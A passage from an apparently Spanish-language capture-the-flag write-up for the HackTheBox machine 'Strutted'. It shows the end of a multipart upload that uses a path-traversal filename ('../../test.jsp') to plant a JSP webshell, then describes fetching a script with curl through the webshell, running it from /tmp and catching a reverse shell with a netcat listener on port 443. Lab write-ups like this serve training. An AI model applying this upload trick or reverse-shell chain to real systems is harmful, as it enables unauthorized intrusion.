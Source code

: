 ```bash
                }
        }
%>
</pre>
</BODY></HTML>


-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="top.uploadFileName"

../../test.jsp
-----------------------------73222280540321048361232719302--
```

Ahora si nos vamos a `http://strutted.htb/test.jsp`, vemos la webshell:

![image](../zimages/Pasted_image_20250327133404.png)

Vamos a intentar generar una reverse shell, probando, de la única manera que me dejó conectarme a la máquina víctima, fue descargando el archivo y luego ejecutándolo mediante comandos:

![image](../zimages/Pasted_image_20250327133702.png)

Ahora ejecutamos un curl en la webshell y lo guardamos en `/tmp`, dándole permisos de ejecución, después, nos ponemos en escucha mediante `nc -nlvp 443` y, acto seguido, ejecutamos el script guardado en /tmp:
